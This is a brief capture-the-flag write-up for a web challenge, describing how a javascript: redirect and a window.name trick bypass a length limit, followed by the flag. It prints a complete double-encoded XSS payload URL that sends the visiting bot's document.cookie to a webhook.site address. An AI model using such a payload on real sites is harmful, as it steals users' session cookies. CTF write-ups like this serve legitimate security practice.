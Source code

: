 Redirect to javascript:pseudo protocol to get JS execution. Reference name using javascript:name to get pass length limit.

Make sure to double encode so it's in the expected format when it's visited by the bot.
```
http://chal.78727867.xyz:21337/visit?nonce=34164185&url=http://localhost:5000/%3Fname%3D%253Cscript%253Ewindow%2Elocation%253d%2527https%3A%2F%2Fwebhook%2Esite%2F2f2c1a84%2Db005%2D4ff3%2Dadc5%2D19855441af36%2F%2527%252bdocument%2Ecookie%253C%2Fscript%253E%26url%3Djavascript%3Aname%0A%0A
```

NHNC{javascript:xssed!&xssed!=alert(/whale/)}

Solved by: benkyou
